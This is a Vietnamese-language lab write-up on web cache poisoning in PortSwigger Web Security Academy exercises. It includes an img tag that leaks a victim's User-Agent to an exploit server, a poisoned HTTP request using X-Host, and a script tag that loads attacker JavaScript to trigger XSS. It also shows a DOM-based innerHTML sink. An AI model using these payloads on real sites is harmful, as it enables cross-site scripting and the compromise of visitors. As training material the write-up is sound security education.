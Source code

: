 ```
<img src="https://exploit-0a4900250448d5f880d202290129000c.exploit-server.net">
```
- Khi **victim** truy cập **post** này 
    - **src** sẽ được **load** => **request** đến **exploit server**
    - Khi **request** đến **exploit server** => đính kèm `User-Agent` của **victim**
- Đến **log exploit server** => copy thông tin `User-Agent` của **victim**
- Gửi lại **request** sử dụng thông tin `User-Agent` của **victim** => vì **cache key** là `User-Agent` nên cần **fake** để tạo **cache** cho **victim**

```http
GET /post?postId=1 HTTP/1.1
Host: 0a7300210448d5c18022036c007b0063.h1-web-security-academy.net
X-Host: exploit-0a4900250448d5f880d202290129000c.exploit-server.net
...
X-Host: xnxx.com
```

```html
<script type="text/javascript" src="//exploit-0a4900250448d5f880d202290129000c.exploit-server.net/resources/js/tracking.js"></script>
```
- Gửi **request** đến khi `X-Cache: hit`
- Khi **victim** truy cập bài viết => tải **cache poison** => **src** được tải => **XSS** xảy ra

### Lab: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria
#### Analysis
- Truy cập trang 
- Quan sát **response** ta thấy các **script** đáng ngờ

```html
<script>
    data = {"host":"0a37000904c443d080e813bd003200d0.web-security-academy.net","path":"/"}
</script>

<script type="text/javascript" src="/resources/js/geolocate.js"></script>

<script>
    initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

```js
function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country;
            geoLocateContent.appendChild(div)
        });
}
```
{:file="/resources/js/geolocate.js"}
- Sử dụng **Param Miner** để quét **unkeyed header** => xác định được **X-Forwarded-Host**
- Gửi lại **request** với header **X-Forwarded-Host** và **cache buster**
